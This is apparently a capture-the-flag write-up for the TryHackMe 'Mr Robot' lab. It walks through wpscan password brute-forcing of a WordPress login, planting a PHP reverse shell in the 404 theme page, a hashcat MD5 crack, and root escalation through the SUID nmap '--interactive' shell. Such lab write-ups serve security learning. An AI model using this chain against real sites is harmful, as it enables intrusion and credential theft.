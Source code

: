 # \# TODO : need to finish this

> nmap -A $TARGET

> dirb http://$TARGET

* robots.txt : fsociety.dic (It will be used later)
* wp-login.php



user elliot , help from writeup ( Method : hydra to login page as a dummy, check status for correct username )

Wpscan on the wp-login with the
> wpscan --url http://$TARGET/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot

Found Elliot's creds. We can login as wordpress admin.

### Shell access 

Aim: Run PHP reverse-shell script somehow
script used: pentestermonkey's reverse-shell.php

> Replaced the script with the 404-Page theme php code.

While netcat is listening, we can get access by simply requesting a page that doesn't exist.
To activate the 404-page's script.

> URL : http://$TARGET/nonexistingpagelmfao.html

Now we have shell access.

---

### Flags

> hashcat

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Mar 24 15:33:23 2020 (0 secs)
Time.Estimated...: Tue Mar 24 15:33:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   180.2 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```



> ./LinEnum.sh

[linenumres.txt](https://github.com/parsakzr/CTF/blob/master/THM/mrrobot/linenumres.txt) :

```
[-] SUID files:
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

old version of nmap which doesn't have --script 
so: 
> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root
```
> cd /root

> cat key-3-of-3.txt
